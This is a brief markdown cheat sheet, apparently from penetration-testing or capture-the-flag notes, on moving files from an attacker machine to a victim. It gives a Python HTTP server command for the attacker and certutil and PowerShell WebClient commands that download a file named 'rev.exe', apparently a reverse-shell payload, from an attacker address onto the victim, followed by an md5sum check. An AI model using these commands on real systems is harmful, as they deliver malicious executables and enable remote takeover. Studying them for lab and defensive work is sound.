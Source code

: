 # file transfer

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine using CMD.
```shell
certutil -urlcache -f http://me:8888/rev.exe rev.exe
```

- Victim machine using powershell.
```powershell
powershell (New-Object Net.WebClient).Downloadfile('http://10.9.53.136:8888/rev.exe', 'rev.exe')
```

- Check integrity after file transfer using

```shell
md5sum file
```
